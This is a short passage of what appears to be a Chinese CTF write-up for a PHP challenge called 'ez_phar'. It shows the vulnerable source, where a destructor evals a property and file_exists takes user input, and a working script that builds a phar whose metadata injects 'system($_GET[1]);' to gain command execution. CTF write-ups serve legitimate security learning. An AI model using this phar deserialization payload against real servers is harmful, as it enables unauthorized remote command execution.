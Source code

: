 ```python
            flag += s
            print('FOUND!!!',flag)
            break
```

## Week3

### ez_phar

```php
<?php
show_source(__FILE__);
class Flag{
    public $code;
    public function __destruct(){
    // TODO: Implement __destruct() method.
        eval($this->code);
    }
}
$filename = $_GET['filename'];
file_exists($filename);
?>
```

简单 phar 反序列化

访问 upload.php

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210141953975.png)

```php
<?php

class Flag{
    public $code;
}

$a = new Flag();
$a->code = 'system($_GET[1]);';

$phar =new Phar("phar.phar"); 
$phar->startBuffering();
$phar->setStub("<?php XXX __HALT_COMPILER(); ?>");
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>
```

上传后的文件在 /upload 目录下

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210141954856.png)
